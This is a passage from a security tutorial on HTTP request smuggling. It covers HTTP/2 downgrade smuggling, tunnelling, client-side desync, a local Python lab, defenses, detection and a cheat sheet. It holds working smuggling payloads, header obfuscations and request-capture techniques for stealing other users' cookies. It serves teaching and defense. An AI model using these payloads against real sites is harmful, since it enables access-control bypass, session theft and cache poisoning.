connection group; if the normal request comes back with an anomalous response (e.g. a 404 where you
expected 200, or your smuggled path's content), the desync is confirmed **and** you have proven impact
without waiting for a random victim.

Critically, do the confirmation with **your own** follow-up request in the same Burp "connection group"
so you are the victim, not a real user. This is the non-destructive discipline: you never leave an
un-completed poison on a shared production connection.

## Part 8: The HTTP/2 Era — Downgrade Smuggling (H2.CL and H2.TE)

Everything above is HTTP/1.1, where the ambiguity comes from *two competing length headers in a text
protocol*. HTTP/2 was supposed to end all of this. In HTTP/2, message length is **implicit** — the
protocol frames data in explicit length-prefixed DATA frames, and `Content-Length`/`Transfer-Encoding`
are not used for framing at all. A pure end-to-end HTTP/2 chain is essentially immune to classic
smuggling.

The problem is **HTTP/2 downgrading**. Enormous numbers of real deployments speak HTTP/2 between the
client and the front-end, but the front-end then **rewrites the request into HTTP/1.1** to talk to a
back-end that only understands HTTP/1.1. That rewrite is a translation step — and if the front-end
translates *naively*, it reintroduces exactly the ambiguity HTTP/2 removed. This is **HTTP/2 downgrade
smuggling**, and it is the dominant real-world variant today because so many CDNs and load balancers
downgrade.



### H2.CL — smuggling via an injected Content-Length

In HTTP/2 the length is implicit, so a `content-length` header in an HTTP/2 request is *advisory* and
should be validated against the actual DATA frame length. If the front-end **trusts an attacker-
supplied `content-length` and copies it into the downgraded HTTP/1.1 request** without checking it
against the real body size, you get **H2.CL**: the back-end (HTTP/1.1) reads the body length from that
injected `content-length`, which you set to be shorter than the real body, leaving a smuggled prefix.

In Burp Repeater (with HTTP/2 enabled and "Inspector" showing the request as HTTP/2), you add a header
`content-length: 0` and place your smuggled request in the body:

```
:method    POST
:path      /
:authority vulnerable.example
content-length   0

GET /admin HTTP/1.1
Host: vulnerable.example
Content-Length: 10

x=1
```

Because you declared `content-length: 0`, the downgraded HTTP/1.1 request tells the back-end the body
is empty — so the back-end treats `GET /admin HTTP/1.1...` (which the front-end faithfully appended as
the "body") as the **next request**. Burp lets you set this because it does not "fix" your HTTP/2
`content-length` the way it fixes HTTP/1.1 lengths.

### H2.TE — smuggling via an injected Transfer-Encoding

The HTTP/2 spec explicitly **forbids** `transfer-encoding` in HTTP/2 messages. A correct front-end
strips it. A vulnerable one forwards it into the downgraded HTTP/1.1 request — and now the back-end
sees `Transfer-Encoding: chunked`, honours it, and desyncs against the front-end which framed by the
real HTTP/2 length. That is **H2.TE**:

```
:method    POST
:path      /
:authority vulnerable.example
transfer-encoding   chunked

0

GET /admin HTTP/1.1
Host: vulnerable.example
Foo: bar
```

The front-end frames the HTTP/2 message by its DATA-frame length (correct), but because it copied
`transfer-encoding: chunked` into the HTTP/1.1 version, the back-end reads the body as chunked, stops at
the `0`, and queues `GET /admin...` as a smuggled request.

### HTTP/2 CRLF injection into headers

HTTP/2 carries header names and values as opaque binary strings, so you can put a **literal CRLF inside
a header value** — something impossible to express in the HTTP/1.1 text format, where CRLF *is* the
delimiter. When a naive front-end downgrades, that embedded CRLF becomes a real line break in the
HTTP/1.1 request, letting you **inject entire new headers or even a request line**. For example, an
HTTP/2 header value of:

```
foo: bar\r\nTransfer-Encoding: chunked
```

downgrades to two HTTP/1.1 headers:

```http
foo: bar
Transfer-Encoding: chunked
```

This CRLF-injection primitive is what makes HTTP/2 downgrade smuggling so powerful: even if you cannot
add a top-level `transfer-encoding` header, you may be able to *smuggle one in* via a CRLF inside some
other header's value. It also enables **request splitting** — injecting `\r\n\r\n` plus a whole new
request line into a header value to append a second request during downgrade.

**Bug bounty relevance:** H2.CL, H2.TE, and HTTP/2 CRLF injection are where most modern high-value
smuggling reports live, because so much of the internet fronts HTTP/1.1 origins with HTTP/2-speaking
CDNs. PortSwigger's "HTTP/2 request smuggling" lab set (H2.CL, H2.TE, CRLF injection, request
splitting, request tunnelling) trains exactly these.

## Part 9: Request Tunnelling — When the Connection Is Not Shared

Some front-ends open a **fresh back-end connection per client connection** (no pooling across users).
Classic smuggling relies on a *shared* back-end connection to poison a stranger, so on these
architectures the "poison the next user" impact disappears. But a related primitive survives: **request
tunnelling**. Here you smuggle a second request whose response comes back to *you* on *your own*
connection — you are effectively tunnelling a request past the front-end's inspection to the back-end
and reading the reply yourself.

Even self-targeted, tunnelling is useful:

- **Bypassing front-end request inspection / WAF:** the smuggled (tunnelled) request is never parsed by
  the front-end as a request, so header-based access controls, WAF rules, and routing decisions applied
  by the front-end do not apply to it.
- **Header disclosure / internal header capture:** by tunnelling a request that reflects back the raw
  request the back-end received, you can leak internal headers the front-end *adds* (e.g. authentication
  headers, real client IP headers, internal routing tokens) — valuable recon.

Tunnelling is detected differently from shared-connection smuggling: you look for a *single* response
that contains **two** back-end responses concatenated, or content that could only come from a second,
hidden request. Burp's HTTP Request Smuggler flags "tunnelling" separately from full desync for this
reason.

## Part 10: Impact — What a Desync Primitive Actually Buys You

A desync by itself is just "I can prepend bytes to the next request on this connection." The reason it
is a top-tier bug is the **breadth of what that prepend enables**. The main impact classes:

### 10.1 Bypassing front-end security controls

If the front-end enforces access control by URL path (block `/admin`, require auth on `/internal`), a
smuggled request goes *straight to the back-end* without the front-end evaluating its path. You reach
restricted functionality with the front-end's trust. This is the most common and easiest-to-demonstrate
impact.

### 10.2 Capturing other users' requests (request stealing)

This is the crown jewel and the reason smuggling can equal account takeover. You smuggle a prefix that
turns the **victim's next request into the body of your smuggled request**, then arrange for that body
to be **stored and reflected** somewhere you can read it — a comment field, a search history, a profile
"bio", any endpoint that echoes a POST body back. When the victim's request (carrying their `Cookie`,
`Authorization`, CSRF token, etc.) is appended to your smuggled request, those secrets get saved as your
comment/search/bio, and you read them.



The victim does nothing unusual — they just browse the site normally and their credentials are exfil-
trated. Non-destructive proof here means capturing **your own** second request, or a benign marker, and
reporting the primitive — never harvesting real users' live session cookies at scale.

### 10.3 Web cache poisoning via desync

If a cache sits in the chain, you can smuggle a request whose response the cache stores against a
*normal* URL's cache key. Every subsequent visitor to that normal URL is served your smuggled response —
which might be a redirect to your site, an XSS payload, or defacement. Desync-driven cache poisoning is
especially dangerous because it is **persistent and unauthenticated**: it hits every cache consumer
until the entry expires. (Cache poisoning is a topic in its own right; here the desync is merely the
*delivery* mechanism for the poisoned entry.)

### 10.4 Cache deception and response queue poisoning

A subtler variant, **response queue poisoning**: once a connection is desynced, the mapping between
requests and responses on that back-end connection is shifted by one. User A can start receiving
responses meant for User B and vice versa — a "response splitting" effect at the connection level that
can leak other users' authenticated pages directly. This is one of the most severe outcomes and is why
a desynced connection is never left in the wild.

### 10.5 Exploiting reflected/stored XSS that needs no victim interaction

Ordinarily a reflected XSS requires luring the victim to a crafted URL. With smuggling you can **deliver
the reflected XSS to a victim's normal request** — you smuggle a prefix so the victim's own request is
routed to your XSS-triggering path, effectively converting reflected XSS into something that fires for
users who never clicked your link.

| Impact class | What you smuggle | Who is affected | Typical severity |
|--------------|------------------|-----------------|------------------|
| FE control bypass | Request to a blocked path | You (self) | High |
| Request capture | Open-ended POST that eats victim's request | Other users | Critical (ATO) |
| Cache poisoning | Response mapped to a popular URL's cache key | All cache consumers | Critical |
| Response queue poisoning | Framing shift on shared connection | Random users | Critical |
| Forced XSS delivery | Prefix routing victim to XSS path | Targeted/other users | High–Critical |

## Part 11: The Toolkit — From Zero to Smuggling

Request smuggling is one of the few bug classes where the tooling genuinely matters, because getting
raw bytes on the wire *exactly* right by hand — preserving deliberately-wrong `Content-Length`, forcing
requests down a single connection, keeping HTTP/2 headers unmangled — is what defeats most beginners.
Here is each essential tool from scratch.

### 11.1 Burp Suite Repeater — the manual workbench

**What it is:** Burp Suite is the industry-standard web proxy and testing platform (Community edition is
free; Professional adds the scanner and some extensions). Repeater is its manual request editor: you
send a request, tweak it, resend, and inspect the response. For smuggling, four Repeater features are
non-negotiable.

Install Burp on Kali (it ships pre-installed; otherwise `sudo apt install burpsuite` or download the
jar from PortSwigger). Launch it, set your browser's proxy to `127.0.0.1:8080`, install Burp's CA cert
so HTTPS intercepts cleanly, then send any request to Repeater (`Ctrl+R`).

The four features that make Repeater smuggling-capable:

1. **Disable automatic Content-Length update.** In Repeater's options (the `⚙`/gear or right-click
   menu), turn off "Update Content-Length". Smuggling *requires* a `Content-Length` that does not match
   the real body; if Burp keeps "fixing" it, every payload fails. This is the single most common
   beginner mistake.
2. **Show non-printable characters and edit raw.** Use the Inspector / "\n" toggle so you can place
   exact `\r\n` sequences. In the message editor, ensure you are not accidentally sending bare `\n`
   line endings — HTTP requires CRLF.
3. **"Send group in sequence (single connection)".** Put your attack request and a follow-up "normal"
   request into a **tab group**, then choose *Send group in sequence (single connection)*. This forces
   both requests down **one TCP connection**, which is mandatory to observe a desync's effect on the
   *next* request. There is also "Send group in parallel" for the last-byte-sync timing attacks.
4. **HTTP/2 support and "Inspector".** Repeater speaks HTTP/2 natively. For H2.CL / H2.TE you enable
   HTTP/2 for the request, use the Inspector to add pseudo-headers and a raw `content-length`/
   `transfer-encoding`, and Burp will *not* sanitise them — exactly what downgrade smuggling needs.
   Burp even has a "kettled" HTTP/2 mode allowing malformed HTTP/2 (e.g. CRLF in header values) that
   the spec forbids but downgrade attacks require.

### 11.2 HTTP Request Smuggler (Burp BApp extension)

**What it is:** a free Burp extension by James Kettle (PortSwigger) that automates smuggling detection.
Install it from Burp's **Extensions → BApp Store → "HTTP Request Smuggler"** (it needs Jython for some
features; Burp will prompt). It adds a right-click menu on any request.

Core workflow: right-click a request → **Extensions → HTTP Request Smuggler → "Smuggle probe"**. It
sends the full battery of timing-based CL.TE / TE.CL / TE.TE / CL.CL and HTTP/2 downgrade probes safely
(timing-first), and reports which variant, if any, the target is vulnerable to. It also offers:

- **"Smuggle attack (CL.TE)" / "(TE.CL)"** to generate a working attack scaffold once a variant is
  confirmed.
- **HTTP/2-specific probes** for H2.CL, H2.TE, CRLF injection, and tunnelling.
- **"Guess connection state"** to detect connection-locked back-ends (tunnelling vs. shared).

It is the fastest safe way to answer "is this vulnerable, and to what?" before you hand-craft an
exploit in Repeater.

### 11.3 Turbo Intruder — precision timing and single-connection scripting

**What it is:** another PortSwigger extension (BApp Store → "Turbo Intruder") that sends huge volumes of
requests with fine-grained control over concurrency and, crucially, **connection reuse and byte-level
timing**. For smuggling it is used to script the "last-byte sync" technique — sending everything but the
final byte of two requests, then releasing the last bytes together to win a race and reliably desync
even against fast, well-tuned servers. Its Python-like scripting exposes `engine.queue()` and lets you
pin requests to one connection. Turbo Intruder is also how you *reliably* land request-capture attacks
that need many attempts to catch a victim (or your own probe) in the window.

### 11.4 smuggler.py — a standalone CLI detector

**What it is:** an open-source Python 3 command-line smuggling detection tool (Defparam's `smuggler`)
useful when you want detection outside Burp, e.g. in a CI/recon pipeline. Install and run:

```bash
git clone https://github.com/defparam/smuggler.git
cd smuggler
python3 smuggler.py -u https://vulnerable.example/
```

It cycles through a configurable set of CL.TE/TE.CL mutation payloads (in `payloads/`) using timing
detection and prints which, if any, trigger a desync, saving a ready-to-replay payload file. Flags you
will use:

| Flag | Meaning |
|------|---------|
| `-u <url>` | Target URL to test |
| `-m <method>` | HTTP method for probes (default `POST`) |
| `-l <logfile>` | Write results/log to file |
| `-c <configfile>` | Use a specific payload/mutation config |
| `-t <timeout>` | Socket timeout (tune for slow targets) |
| `-x` | Exit on the first finding |
| `-q` | Quiet mode |

**Blue team usage:** run smuggler.py or the Burp Smuggler probe against your *own* edge before an
attacker does — it is equally a defensive validation tool. Feed the same mutation corpus at your WAF and
origin to confirm they agree on framing.

## Part 12: Client-Side Desync (CSD) — Smuggling With No Proxy At All

The variants so far need a front-end/back-end *parser disagreement*. In 2022 James Kettle introduced a
class that needs neither an intermediary nor a chunked-header trick: **client-side desync (CSD)**. Here
the *victim's own browser* is coerced into poisoning its own connection to the server. This matters
because it turns smuggling into something exploitable **purely from a malicious web page** — no Burp,
no shared back-end, just JavaScript in the victim's browser.

The mechanism: some servers ignore the `Content-Length` on certain requests (commonly `POST` to
endpoints that don't expect a body, or specific server bugs where the body is not consumed). If a server
accepts a `POST` with a body but never reads that body, the body bytes stay in the browser's connection
buffer and get **prepended to the browser's next request on that keep-alive connection**. Because
`fetch()` with `keepalive` and same-origin navigation reuse connections, attacker JavaScript can:

1. Send a `POST` whose body is a smuggled request prefix, to a server that ignores the body.
2. Immediately trigger the browser to navigate to the target — the browser reuses the poisoned
   connection, and the victim's *own* next request is prefixed by the attacker's smuggled bytes.



The impact is browser-powered: **self-XSS becomes real XSS**, arbitrary requests are made in the
victim's authenticated context, and it can be chained to poison the browser's *own* cache. CSD detection
uses the same timing idea (does a body-carrying POST cause the next request on the connection to
misbehave?), but the exploit is delivered as an HTML/JS page. PortSwigger's "Browser-powered request
smuggling" labs cover CSD, client-side cache poisoning, and pause-based desync.

**Why this changed the threat model:** classic smuggling requires the attacker to reach the vulnerable
front-end directly and needs shared back-end connections. CSD sidesteps both — the "front-end" is the
victim's browser, and the shared connection is the victim's own. It re-opened smuggling against targets
previously considered safe (single-server, connection-per-user).

## Part 13: Hands-On Lab — Detecting and Exploiting a CL.TE Desync

This lab is fully reproducible against a deliberately-vulnerable local stack, so you practise the exact
byte-level mechanics without touching anyone else's infrastructure. We build a two-hop chain — an
Nginx-style front-end that frames by `Content-Length` in front of a tiny back-end that frames by
`Transfer-Encoding` — using a scriptable mock. (For the real-tool experience, the PortSwigger labs
linked in Part 18 give a hosted CL.TE/TE.CL/H2 target; use whichever you have access to.)

### 13.1 Stand up a vulnerable two-hop lab

We simulate the disagreement with two small Python servers: a **back-end** that honours
`Transfer-Encoding: chunked` and a **front-end** that honours `Content-Length` and forwards raw bytes on
a reused connection. Save as `backend.py`:

```python
# backend.py — a toy back-end that frames bodies by Transfer-Encoding: chunked
import socketserver

class Handler(socketserver.StreamRequestHandler):
    def handle(self):
        # Keep the connection open (keep-alive) and parse requests back-to-back.
        buf = b""
        while True:
            data = self.request.recv(4096)
            if not data:
                break
            buf += data
            # Very naive: split on double CRLF for headers, then honour TE:chunked.
            while b"\r\n\r\n" in buf:
                head, rest = buf.split(b"\r\n\r\n", 1)
                line0 = head.split(b"\r\n", 1)[0].decode(errors="replace")
                is_chunked = b"transfer-encoding: chunked" in head.lower()
                if is_chunked:
                    # Consume chunks until the 0-length terminator.
                    body, rest2, done = b"", rest, False
                    while b"\r\n" in rest2:
                        szline, tail = rest2.split(b"\r\n", 1)
                        try:
                            n = int(szline.strip(), 16)
                        except ValueError:
                            break
                        if n == 0:
                            done = True
                            rest2 = tail.split(b"\r\n", 1)[-1] if b"\r\n" in tail else b""
                            break
                        body += tail[:n]
                        rest2 = tail[n+2:]  # skip data + trailing CRLF
                    if not done:
                        break  # incomplete chunked body: wait for more (this is the hang)
                    buf = rest2
                else:
                    buf = rest  # no body handling for the toy GET path
                self.wfile.write(
                    b"HTTP/1.1 200 OK\r\nContent-Length: %d\r\nConnection: keep-alive\r\n\r\n%s"
                    % (len(line0)+9, b"[BACKEND] " + line0.encode())
                )

with socketserver.ThreadingTCPServer(("127.0.0.1", 9001), Handler) as s:
    print("backend on 9001"); s.serve_forever()
```

The teaching point is not that this toy is production-accurate — it is that it makes the **CL vs TE
disagreement visible**: the back-end above hangs on an incomplete chunked body (the CL.TE timing
signal) and processes a leftover prefix as a new request (the desync). Rather than also hand-roll a
forwarding front-end, we will demonstrate the disagreement directly by connecting to the back-end and
replaying exactly the bytes a CL-framing front-end would forward.

### 13.2 Send a raw CL.TE timing probe with a socket

The cleanest way to *see* framing is to speak HTTP by hand. This Python script sends the CL.TE timing
probe and measures the delay:

```python
# probe.py — send a raw CL.TE timing probe and time the response
import socket, time

payload = (
    b"POST / HTTP/1.1\r\n"
    b"Host: 127.0.0.1\r\n"
    b"Transfer-Encoding: chunked\r\n"
    b"Content-Length: 4\r\n"   # a CL front-end would forward only 4 body bytes
    b"\r\n"
    b"1\r\n"                    # chunk size 1 ...
    b"A"                       # ... but we stop here: the TE back-end will hang
)

s = socket.create_connection(("127.0.0.1", 9001), timeout=15)
start = time.time()
s.sendall(payload)
try:
    data = s.recv(4096)
    print("response after %.1fs: %r" % (time.time()-start, data[:80]))
except socket.timeout:
    print("TIMED OUT after %.1fs  <-- back-end hung waiting for chunk data (CL.TE positive)"
          % (time.time()-start))
```

Run both:

```bash
$ python3 backend.py &
backend on 9001
$ python3 probe.py
TIMED OUT after 15.0s  <-- back-end hung waiting for chunk data (CL.TE positive)
```

That timeout is the **positive signal**: the back-end read chunk size `1`, expected one data byte plus
a CRLF plus the next chunk header, never received them (a real CL front-end would have forwarded only 4
bytes), and blocked on `recv`. If you instead send a *complete* chunked body (add `\r\n0\r\n\r\n`), the
same script returns instantly with `[BACKEND] POST / HTTP/1.1` — the difference between hang and no-hang
*is* the detection.

### 13.3 Prove the prefix desync

Now demonstrate that leftover bytes become the next request. Send one complete chunked request whose
body ends with a `0` terminator followed by a smuggled request line, all on **one** connection, then a
benign second request:

```python
# desync.py — prove a smuggled prefix becomes the next request
import socket, time

attack = (
    b"POST / HTTP/1.1\r\n"
    b"Host: 127.0.0.1\r\n"
    b"Transfer-Encoding: chunked\r\n"
    b"\r\n"
    b"0\r\n"                       # end of chunked body (back-end stops here)
    b"\r\n"
    b"GET /admin HTTP/1.1\r\n"     # <-- smuggled prefix left on the buffer
    b"Host: 127.0.0.1\r\n"
    b"\r\n"
)

s = socket.create_connection(("127.0.0.1", 9001), timeout=5)
s.sendall(attack)
time.sleep(0.3)
print(s.recv(4096))   # observe the back-end also processing the smuggled /admin line
```

```bash
$ python3 desync.py
b'HTTP/1.1 200 OK\r\nContent-Length: 26\r\n...\r\n[BACKEND] POST / HTTP/1.1'
b'HTTP/1.1 200 OK\r\n...\r\n[BACKEND] GET /admin HTTP/1.1'
```

Two `[BACKEND]` lines came back from what the *front-end's framing* would have called a single request —
the second is the **smuggled** `GET /admin`. On a real target this is the moment `/admin` is reached
past a front-end that would have blocked it. Everything after this in the real world is choosing an
impactful smuggled request (Part 10) and confirming it against **your own** follow-up request, never a
stranger's.

### 13.4 Repeating it with real tools

On a hosted PortSwigger lab (real Nginx+back-end), the same logic is driven from Burp:

1. Send a `POST /` to Repeater. Turn **off** "Update Content-Length".
2. Add `Transfer-Encoding: chunked`, set `Content-Length` to cover `0\r\n\r\n` + your smuggled request
   line, and place `GET /admin HTTP/1.1\r\nX-Ignore: X` after the `0` chunk.
3. Group this request with a normal `GET /` in a tab group and choose **"Send group in sequence (single
   connection)"**.
4. The *second* response comes back as the smuggled `/admin` response — desync confirmed, self-targeted,
   non-destructive.

## Part 14: A Testing Methodology for Finding Desync in the Wild

Pulling the pieces together into a repeatable hunt you can run on any authorised target:



Practical field notes:

- **Prefer POST endpoints** that legitimately accept a body — search, comment, login, GraphQL — so a
  body-carrying probe is not itself anomalous.
- **Identify the stack** first. `Server` headers, error-page fingerprints, and behaviour under malformed
  chunking hint at which server pair you face (Nginx, HAProxy, Apache, IIS, Akamai, Cloudflare,
  CloudFront, Envoy). Known-vulnerable combos speed the hunt.
- **Always timing-first.** Never lead with a content-changing probe on production; a hung timing probe
  harms no one, a botched content probe can poison a real user.
- **Test HTTP/2 explicitly.** Many targets are only vulnerable via downgrade. Enable HTTP/2 in Burp and
  try H2.CL/H2.TE even if HTTP/1.1 probes came back clean.
- **Scope discipline for bounties.** Re-read the program policy. If smuggling is allowed, prove it with a
  self-targeted request and a clear write-up; do not run request-capture against real users' traffic.

## Part 15: Real-World Cases, CVEs, and Notable Research

Request smuggling is not academic — it has repeatedly broken large production systems. A non-exhaustive
tour that is worth knowing for context and for report citations:

| Year / label | What happened | Why it mattered |
|--------------|---------------|-----------------|
| 2005 (Watchfire) | Original "HTTP Request Smuggling" paper by Linhart, Klein, et al. | Named and defined the class (CL/TE ambiguity) |
| 2019 "HTTP Desync Attacks" (James Kettle) | Reframed detection around timing, weaponised against PayPal, and disclosed widespread CDN/LB exposure | Made smuggling practical and mainstream in bug bounty |
| 2020 "HTTP Desync 2.0" / Kettle follow-ups | Cache poisoning, request tunnelling, browser angles refined | Broadened impact catalogue |
| 2021 "HTTP/2: The Sequel is Always Worse" (Kettle) | H2.CL, H2.TE, HTTP/2 CRLF injection, downgrade smuggling | Showed HTTP/2 downgrading reintroduces smuggling at scale |
| 2022 "Browser-Powered Desync Attacks" (Kettle) | Client-side desync, pause-based desync, browser cache poisoning | Removed the "need a proxy" and "need shared connections" assumptions |
| CVE-2019-18277 (HAProxy) | TE handling flaw enabling smuggling | Real, patched proxy vuln |
| CVE-2019-20372 (Nginx error_page) | Request smuggling via `error_page` misrouting | Config-dependent, widely deployed |
| CVE-2021-33193 (Apache httpd mod_proxy / HTTP/2) | HTTP/2 request splitting / smuggling | Part of the HTTP/2 downgrade wave |
| Numerous 2019–2024 bounties | Akamai, CloudFront, Cloudflare, and origin combos disclosed on HackerOne | Five-figure payouts for ATO-grade desync |

The through-line: every few years the class is declared "solved" (spec tightening, HTTP/2, HTTP/3) and a
new translation seam — downgrade, browser, or a fresh parser quirk — reopens it. Treat "we use HTTP/2"
as a reason to test *harder*, not a reason to assume immunity.

## Part 16: Detection & Defense Angle

This is the consolidated defensive section. Smuggling is fundamentally a **parser-agreement** problem,
so the fixes are about eliminating ambiguity, not about pattern-matching payloads (a WAF cannot reliably
signature every obfuscation).

### 16.1 Use HTTP/2 (or HTTP/3) end-to-end and do not downgrade

The single most effective structural defense is to speak **HTTP/2 all the way to the back-end** and
avoid rewriting to HTTP/1.1. HTTP/2's explicit framing removes the CL/TE ambiguity entirely. If you must
downgrade, the front-end must rebuild the HTTP/1.1 request **defensively**: recompute `Content-Length`
from the actual body, **strip any `transfer-encoding`** the client supplied, and **reject** header names
or values containing raw CR/LF (blocking the HTTP/2 CRLF-injection primitive).

### 16.2 Normalize and validate framing at the front-end

- **Reject ambiguous messages outright.** Per RFC 9112, a request with both `Content-Length` and
  `Transfer-Encoding`, or with duplicate `Content-Length` values, should be rejected with `400`, not
  "resolved". Configure your edge to do exactly this.
- **Normalize before forwarding.** The front-end should re-emit a single, canonical framing (one length
  mechanism, well-formed) so the back-end never sees the client's raw ambiguity. Do not blindly
  byte-forward.
- **Reject malformed `Transfer-Encoding`.** Anything that is not exactly `Transfer-Encoding: chunked`
  (spaces before the colon, exotic whitespace, `xchunked`, folded values, duplicates) should be rejected,
  not "best-effort parsed".

### 16.3 Make front-end and back-end the same or compatible software

Much real-world desync comes from **two different servers with different tolerances** (e.g. a permissive
front-end and a strict back-end). Where feasible, use the same server software/version for both hops, or
pairs known to agree. Keep both patched — the CVEs above are all fixed in current releases.

### 16.4 Disable back-end connection reuse where the risk is unacceptable

If the back-end opens a **fresh connection per client request** (no pooling), the "poison the next user"
impact of classic smuggling largely evaporates (tunnelling may remain, but request-capture and
cross-user poisoning do not). This costs performance, so it is a trade-off for high-value origins, but it
is a strong mitigation.

### 16.5 Detection and monitoring (blue team)

Signals that a desync is being attempted or is present:

| Signal | What to watch |
|--------|---------------|
| Malformed framing headers | Requests carrying both CL and TE, duplicate CL, obfuscated TE — log and alert |
| Method anomalies | Back-end logs showing methods like `GPOST`, `POST`+garbage, or request lines beginning mid-token |
| Response/request count mismatch | A connection where responses no longer line up 1:1 with requests |
| Timing anomalies | Bursts of long-hanging POSTs (the timing-probe fingerprint) |
| Cache anomalies | A popular URL suddenly serving redirects/foreign content (cache poisoning) |
| Cross-user leakage reports | Users reporting they saw *someone else's* page/data — a red flag for response queue poisoning |

**IR use case:** if you suspect an active desync, capture full raw traffic at the front-end and back-end
simultaneously and diff how each framed the same connection — the divergence point is the vulnerability.
Pull affected connections out of the pool immediately (a desynced connection keeps harming users until
closed). Purge caches if poisoning is suspected.

### 16.6 Defensive test in CI

Run the Burp HTTP Request Smuggler probe or `smuggler.py` against staging on every edge/config change,
and add a regression check that a request with both CL and TE, or a malformed TE, returns `400`. Treat
"the edge silently accepted an ambiguous message" as a build-failing defect.

## Part 17: Common Pitfalls & Gotchas

- **Burp auto-fixing Content-Length.** The number-one reason a correct-looking payload does nothing.
  Disable "Update Content-Length" in Repeater before every smuggling session.
- **Bare `\n` instead of `\r\n`.** HTTP framing is CRLF. A payload that uses Unix line endings will be
  parsed differently (or rejected) than you expect. Verify raw bytes.
- **Miscounting chunk size / Content-Length by one.** In TE.CL especially, the chunk-size hex must
  exactly match the byte length of the smuggled block, counting `\r\n` as two bytes each. Off-by-one
  desyncs unpredictably.
- **Testing on a shared production connection carelessly.** A half-finished poison can hit a real user.
  Always confirm with a self-targeted follow-up in the same connection group, and prefer timing probes
  first.
- **Assuming HTTP/2 targets are safe.** Downgrade smuggling (H2.CL/H2.TE) means an HTTP/2 front is often
  the *most* exposed, not the least. Always test the downgrade path.
- **Forgetting the smuggled request needs valid framing too.** Your smuggled request must itself be a
  well-formed HTTP/1.1 request (its own Host, its own length semantics), or the back-end will error and
  you will misread the result.
- **Not accounting for the trailing header trick.** Leaving a dangling header like `X-Ignore: X` (no
  terminating blank line) on the smuggled request lets it "absorb" the victim's request line so the
  back-end parses cleanly — omitting it can break the follow-up request's parsing.
- **Connection-locked back-ends.** If each client gets a fresh back-end connection, cross-user impact is
  gone; pivot to tunnelling or client-side desync rather than concluding "not vulnerable".
- **Rate limits and WAFs mangling probes.** Some WAFs normalize headers before your probe reaches the
  vulnerable hop, masking the bug. Test with and without the WAF path where scope allows.

## Part 18: Final Revision / Summary

The essentials to carry forward:

- **Root cause:** two servers in a chain disagree about where a request *ends*, because HTTP/1.1 has two
  redundant body-length mechanisms (`Content-Length` and `Transfer-Encoding: chunked`) and servers
  resolve conflicts differently. The leftover bytes become a **smuggled prefix** on the next request of a
  **reused keep-alive connection**.
- **Classic families:** **CL.TE** (front-end CL, back-end TE), **TE.CL** (front-end TE, back-end CL),
  **TE.TE** (both TE, but header obfuscation makes one ignore it), and the rarer **CL.CL** (duplicate
  Content-Length).
- **Modern families:** **HTTP/2 downgrade smuggling** — **H2.CL** (front-end trusts a fake
  `content-length`), **H2.TE** (front-end forwards a forbidden `transfer-encoding`), and **HTTP/2 CRLF
  injection** (binary header values inject line breaks during downgrade). Plus **request tunnelling** on
  connection-locked back-ends and **client-side desync** driven entirely from the victim's browser.
- **Detection:** **timing first** (a hung request proves a framing disagreement without harming anyone),
  then a **self-targeted differential** to confirm impact. Automate with HTTP Request Smuggler,
  smuggler.py, and Turbo Intruder for reliability.
- **Impact:** front-end control bypass, **capturing other users' requests** (→ account takeover), web
  **cache poisoning**, response queue poisoning, and forced XSS delivery. This breadth is why desync is a
  top-severity, top-payout class.
- **Defense:** HTTP/2 (or HTTP/3) end-to-end, **reject ambiguous framing** (both CL+TE, duplicate CL,
  malformed TE) with a `400`, **normalize** at the edge before forwarding, keep front and back compatible
  and patched, and monitor for framing/timing/cache anomalies.
- **Ethics:** live shared infrastructure means real collateral risk. Authorised targets only, timing
  probes before content probes, self-targeted confirmation, and honour program desync rules.

## Part 19: Cheat Sheet / Quick Reference

**Framing recap**

```
Content-Length: N        -> body is exactly N bytes
Transfer-Encoding: chunked ->
   <hex-size>\r\n<data>\r\n ... 0\r\n\r\n
Spec rule: if both present, TE wins, CL ignored (RFC 7230);
           RFC 9112 says: reject as invalid.
```

**Variant map**

| Variant | Front-end frames by | Back-end frames by | Trigger |
|---------|--------------------|--------------------|---------|
| CL.TE | Content-Length | Transfer-Encoding | Both headers present |
| TE.CL | Transfer-Encoding | Content-Length | Both headers present |
| TE.TE | TE (obfuscated one dropped) | TE | Obfuscated `Transfer-Encoding` |
| CL.CL | first Content-Length | second Content-Length | Duplicate `Content-Length` |
| H2.CL | HTTP/2 length | injected Content-Length | Downgrade trusts client CL |
| H2.TE | HTTP/2 length | injected Transfer-Encoding | Downgrade forwards TE |

**CL.TE probe (timing)**

```http
POST / HTTP/1.1
Host: T
Transfer-Encoding: chunked
Content-Length: 4

1
A
```

**TE.CL probe (timing)**

```http
POST / HTTP/1.1
Host: T
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

**CL.TE exploit skeleton (reach /admin)**

```http
POST / HTTP/1.1
Host: T
Content-Length: 35
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

**TE.TE obfuscations to sweep**

```
Transfer-Encoding : chunked        (space before colon)
Transfer-Encoding:[TAB]chunked     (tab)
Transfer-Encoding: chunked
Transfer-Encoding: cow             (duplicate)
Transfer-Encoding: xchunked        (bad value)
Transfer-Encoding:[CRLF][SP]chunked (fold)
```

**Burp checklist**

```
[ ] Repeater: "Update Content-Length" OFF
[ ] Use CRLF, not bare LF
[ ] Group attack + normal request -> "Send group in sequence (single connection)"
[ ] For H2.*: enable HTTP/2, add raw content-length/transfer-encoding via Inspector
[ ] Confirm with YOUR OWN follow-up request, never a real user
```

**Tools**

```
HTTP Request Smuggler (BApp)  -> right-click -> Smuggle probe (timing, all variants + H2)
Turbo Intruder (BApp)         -> last-byte sync, high-reliability desync races
smuggler.py -u https://T/     -> standalone CLI detector
```

**Defense one-liners**

```
- HTTP/2 (or /3) end-to-end; if downgrading, recompute CL, strip TE, reject CRLF-in-headers
- Reject both-CL+TE / duplicate-CL / malformed-TE with 400 (RFC 9112)
- Normalize framing at the edge before forwarding
- Same/compatible + patched front-end and back-end
- Monitor: framing anomalies, GPOST-style methods, req/resp count drift, cache poisoning
```

## Part 20: Practice Labs & Resources

Hands-on targets that train exactly this chapter's skills:

- **PortSwigger Web Security Academy — HTTP request smuggling** (free, the definitive lab set):
  - *CL.TE* and *TE.CL* basic labs — confirm each classic variant.
  - *Obfuscating the TE header* — the TE.TE header-obfuscation lab.
  - *Bypassing front-end security controls (CL.TE / TE.CL)* — reach a blocked `/admin`.
  - *Revealing front-end request rewriting* — leak internal headers the front-end adds.
  - *Capturing other users' requests* — the request-stealing / ATO primitive.
  - *Web cache poisoning via request smuggling* and *response queue poisoning*.
